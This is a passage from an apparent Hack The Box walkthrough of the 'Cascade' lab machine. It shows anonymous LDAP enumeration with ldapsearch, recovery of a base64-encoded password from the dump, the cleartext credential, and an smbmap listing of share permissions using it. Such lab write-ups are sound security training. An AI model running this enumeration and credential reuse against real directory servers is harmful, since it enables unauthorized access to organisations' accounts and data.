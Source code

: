 ```bash
┌─[root@unknown101]─[10.10.14.17]─[~/Desktop/hackthebox/ActiveDirectory/Cascade]
└──╼ #ldapsearch -h $ip -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=cascade,DC=local
namingContexts: CN=Configuration,DC=cascade,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
namingContexts: DC=ForestDnsZones,DC=cascade,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```

after getting the results from naming context, the next step is to extract the LDAP protocol to gather an information with following command:

```bash
ldapsearch -x -h $ip -D '' -w '' -b "DC=cascade,DC=local" > ldap.log
```

inside ldap.log file we will get the password for user `Ryan Thompson`, easily decrypt with base64 tools.

![](/assets/img/cascade/1.png)

`r.thompson:rY4n5eva`

### SMB

check using `smbmap` to see what permissions this user has

```bash
┌─[✗]─[root@unknown101]─[10.10.14.17]─[~/Desktop/hackthebox/ActiveDirectory/Cascade]
└──╼ #smbmap -H $ip -u 'r.thompson' -p 'rY4n5eva'
[+] IP: 10.10.10.182:445        Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
```